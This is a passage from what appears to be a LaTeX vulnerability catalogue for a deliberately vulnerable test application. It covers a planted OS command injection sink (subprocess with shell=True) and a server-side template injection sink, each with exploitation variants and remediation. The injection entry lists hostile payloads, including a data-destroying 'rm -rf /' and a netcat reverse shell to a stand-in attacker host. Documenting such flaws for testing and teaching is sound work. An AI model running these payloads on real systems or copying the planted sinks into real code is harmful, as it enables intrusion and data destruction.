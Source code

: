 \documentclass[11pt,a4paper]{article}
\begin{document}
\noindent\textbf{Planted sink:}
\begin{lstlisting}
return subprocess.check_output("echo $USER_INPUT", shell=True)
\end{lstlisting}
\noindent\textbf{What it is.} OS command injection: untrusted input is concatenated into a shell/command invocation.

\noindent\textbf{Exploitation variants.}
\begin{itemize}[leftmargin=1.4em,itemsep=1pt,topsep=2pt]
\item Inject shell metacharacters: `; rm -rf /`, `| nc attacker 4444 -e /bin/sh`, `\$(curl evil)`.
\item Use `\&\&`, `||`, backticks or `\$()` to chain arbitrary commands.
\item On `Runtime.exec(String)` the string is split naively, so spaces/quotes can be abused.
\end{itemize}
\noindent\textbf{Remediation.} Avoid the shell; use ProcessBuilder with an argument array and a fixed command, validate arguments.

\vspace{4pt}\hrule\vspace{6pt}
\subsection{VULN-79: CWE-1336: Server-Side Template Injection}
\noindent\textbf{Location:} \texttt{src/vulnapp/advanced\_injection\_vulns.py}, line 129 \quad \textbf{Rule:} \texttt{python/server-side-template-injection} \quad \textbf{Severity:} 8.0
\\ \textbf{Reference:} \url{https://cwe.mitre.org/data/definitions/1336.html}

\noindent\textbf{Planted sink:}
\begin{lstlisting}
return Template(tmpl_src).render()
\end{lstlisting}
\noindent\textbf{What it is.} Server-Side Template Injection: input becomes part of a template.

\noindent\textbf{Exploitation variants.}
\begin{itemize}[leftmargin=1.4em,itemsep=1pt,topsep=2pt]
\item Inject template syntax (`\$\{7*7\}`, `\#\{...\}`) that the engine evaluates, often to RCE.
\end{itemize}
\noindent\textbf{Remediation.} Never render user input as template source; pass it as data only.

\vspace{4pt}\hrule\vspace{6pt}
\end{document}
